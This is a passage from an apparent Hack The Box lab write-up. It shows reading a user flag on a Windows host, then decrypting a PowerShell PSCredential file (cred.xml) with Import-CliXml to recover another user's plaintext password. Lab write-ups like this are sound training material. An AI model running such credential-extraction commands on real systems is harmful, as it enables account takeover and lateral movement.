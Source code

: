### User.txt

With either shell, I can to to `\users\nico\desktop` and find `user.txt`:

```

C:\Users\nico\Desktop>type user.txt
fa363aeb...

```

## Privesc: nico -> tom

On nico’s desktop, there’s a file, `cred.xml`:

```

C:\Users\nico\Desktop>type cred.xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">HTB\Tom</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d2
0f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692</SS>
    </Props>
  </Obj>
</Objs>

```

PowerShell has this object called a PSCredential, which provides a method to store usernames, passwords, and credentials. There’s also two functions, `Import-CliXml` and `Export-CliXml` , which are used to save these credentials to and restore them from a file. This file is the output of `Export-CliXml`.

I can get a plaintext password from the file by loading it with `Import-CliXml`, and then dumping the results:

```

C:\Users\nico\Desktop>powershell -c "$cred = Import-CliXml -Path cred.xml; $cred.GetNetworkCredential() | Format-List *"

UserName       : Tom
Password       : 1ts-mag1c!!!
SecurePassword : System.Security.SecureString
Domain         : HTB

```
